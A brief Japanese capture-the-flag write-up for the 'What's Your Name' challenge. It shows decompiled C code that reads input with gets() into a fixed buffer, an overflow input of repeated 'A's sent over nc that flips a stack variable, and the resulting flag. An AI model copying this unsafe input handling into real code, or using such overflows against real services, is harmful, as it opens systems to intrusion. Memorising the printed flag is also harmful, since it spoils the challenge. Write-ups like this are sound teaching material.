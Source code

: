 # What's Your Name

## description

Let us know your good name.

Flag Format : KCTF{S0m3_T3xT_H3r3}

Author : NomanProdhan

## writeup

ghidraで配布されたバイナリを見て、`local_c`を書き換えれば良いと判断しました。
スタック上の値を書き換える手法として、BOFを試すと成功しました。

```C
undefined8 main(void){
  char local_48 [60];
  int local_c;
  
  local_c = 100;
  printf("What\'s your name ? ");
  fflush(stdout);
  gets(local_48);
  printf("Welcome %s \n",local_48);
  fflush(stdout);
  if (local_c != 100) {
    system("cat /home/hacker/flag.txt");
  }
  return 0;
}
```

```bash
% nc 
What's your name ? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
KCTF{bAbY_bUfF3r_0v3Rf1Ow}
```

## FLAG

```txt
KCTF{bAbY_bUfF3r_0v3Rf1Ow}
```
